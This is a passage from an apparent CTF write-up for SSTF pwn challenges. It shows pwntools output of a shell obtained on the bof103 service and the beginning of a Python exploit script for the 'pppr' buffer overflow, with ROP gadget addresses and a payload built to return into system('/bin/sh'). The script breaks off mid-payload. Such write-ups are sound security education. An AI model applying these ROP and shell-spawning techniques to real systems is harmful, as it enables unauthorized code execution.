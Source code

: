 As can be seen in the following output this was successful:
```
[+] Opening connection to bof103.sstf.site on port 1337: Done
b"Welcome to BOF 103!\nWhat's your name?\nName > "
[+] Sending our exploit
[+] Final output
[*] Switching to interactive mode
$ whoami
/bin/sh: 1: whoami: not found
$ ls
bin
bof103
flag
lib
lib64
$ cat flag
SCTF{S0_w3_c4ll_it_ROP_cha1n}
$ 
```


## CTF Tasks
The following were actual challenges during the CTF.

# pppr

This is a buffer overflow in which we reuse a global variable to store our `/bin/sh` string before returning to the `system` function. to drop a shell. We used the following script to solve this challenge:
```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *


def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    #if len(args) == 3 and args[2] == "remote":
    p = remote("pppr.sstf.site", 1337)
    #else:
    #p = process("./pppr")
    #p = gdb.debug("./pppr", gdbscript='break main')

    #binary = ELF('./bof103')

    # Had to set the follow-fork-mode: https://visualgdb.com/gdbreference/commands/set_follow-fork-mode
    # Receiving until input expected
    #print(p.recvuntil(b"> "))
    exploit = b"A"*8 + b"B" * 4
    # 0x8049fd0 ebx
    # 0x08048488 : sub esp, 0x14 ; push 0x804a008 ; call eax
    # 0x080484d4 : sub esp, 0x10 ; push eax ; push 0x804a008 ; call edx
    # 0x080486b9 : mov dword ptr [0x81fffffd], eax ; ret
    # 0x08048645 : mov eax, dword ptr [esp] ; ret


    # Calling r function again to write our string
    exploit += p32(0x08048526) 
```